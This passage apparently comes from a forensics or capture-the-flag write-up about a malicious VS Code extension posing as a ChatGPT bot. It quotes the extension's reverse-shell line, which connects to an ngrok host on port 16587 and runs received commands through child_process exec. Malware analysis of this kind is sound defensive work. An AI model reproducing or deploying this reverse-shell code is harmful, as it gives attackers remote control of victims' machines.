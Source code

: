 ```
    _0x3db126.on("close", () => {
      console.log("closed");
    });
    return /a/;
  })();
}
```

Basically what this script doing is creating a lock file at the user's home directory, the filename is a dot (.) followed by the current process ID and then `.lock`. Then `if (!fs.existsSync(lockFilePath))` checks if this lock file already exists to ensure that only one instance of the script runs at a time. Then `_0x3db126.connect(16587, "6.tcp.eu.ngrok.io")` establishes a reverse shell, receive commands and execute them `require("child_process").exec(_0x45fcf2`. 

This concludes that `extension.js` is the malicious file used to gain initial access, and choosing the `help` option will run the malicious code. The user that has been compromised is `user2`, and this user's SID, `S-1-5-21-1998887770-13753423-1649717590-1001`, can be grepped from `filescan.txt`.

Next, to learn more about the developer of the `0xs1rx58d3v.chatgpt-b0t-0.0.1` extension, I googled it. No results were found, which is expected since this malicious extension was likely removed from the VS Code marketplace. I then wanted to check for a snapshot of its page on the VS Code marketplace via web.archive.org, but to do so, I need the exact URL for this specific extension. To formulate the correct URL, I observed that normal  VS Code extension URLs contain an `itemName` parameter, which holds the extension's unique identifier (the extension name without the version). Therefore, I will search for `https://marketplace.visualstudio.com/items?itemName=0xs1rx58d3v.chatgpt-b0t` on the Web Archive. luckily we got a snapshot and can see the release data and the publisher

![](/assets/images/posts/2025-07-22-ReliableThreat/02.png)
